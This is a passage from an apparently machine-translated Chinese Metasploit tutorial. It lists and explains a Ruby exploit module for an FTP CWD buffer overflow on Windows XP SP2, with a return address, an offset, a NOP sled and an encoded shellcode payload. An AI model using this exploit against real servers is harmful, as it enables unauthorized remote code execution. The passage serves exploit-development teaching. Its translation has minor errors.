 ```
        { 
          'EXITFUNC' => 'process', 
          'VERBOSE'  => true 
        }, 
      'Payload'        => 
        { 
          'Space'   => 1000, 
          'BadChars'  => "\x00\xff\x0a\x0d\x20\x40", 
        }, 
      'Platform'       => 'win', 
      'Targets'        => 
        [ 
          [ 'Windows XP SP2 English', 
            { 
              'Ret' => 0x71ab9372, 
              'Offset' => 2008 
            } 
          ], 
        ], 
      'DisclosureDate' => 'May 9 2016', 
      'DefaultTarget'  => 0)) 
register_options( 
        [ 
                Opt::RPORT(21), 
         OptString.new('FTPPASS', [true, 'FTP Password', 'anonymous']) 
        ]) 
  End 
```

在上一章中，我们研究了许多利用模块。这种利用也不例外。我们首先包括所有必需的库和来自`/lib/msf/core/exploit`目录的`ftp.rb`库。接下来，我们在`initialize`部分分配了所有必要的信息。我们从漏洞中收集要点，将返回地址分配给`Ret`，并将`Offset`设置为`2008`。我们还将`FTPPASS`期权的价值声明为`'anonymous'`。让我们看看代码的下一部分：

```
def exploit 
    c = connect_login 
    return unless c 
    sploit = rand_text_alpha(target['Offset']) 
    sploit << [target.ret].pack('V') 
    sploit << make_nops(10) 
    sploit << payload.encoded 
    send_cmd( ["CWD " + sploit, false] ) 
    disconnect 
  end 
end 
```

`connect_login`方法将连接到目标并尝试使用我们提供的匿名凭据登录软件。但是等等！我们什么时候提供凭证的？模块的`FTPUSER`和`FTPPASS`选项通过包含 FTP 库自动启用。`FTPUSER`的默认值为`anonymous`。但是，对于`FTPPASS`，我们已经在`register_options`中提供了`anonymous`值。

接下来，我们使用`rand_text_alpha`从`Targets`字段中使用`Offset`的值生成`2008`的垃圾，然后将其存储在`sploit`变量中。我们还使用`sploit`变量中的`pack('V')`函数，以小端格式保存`Targets`字段中的`Ret`值。将`make_nop`函数生成的 NOP 与外壳代码连接起来，我们将其存储到`sploit`变量中。我们的输入数据已准备好提供。
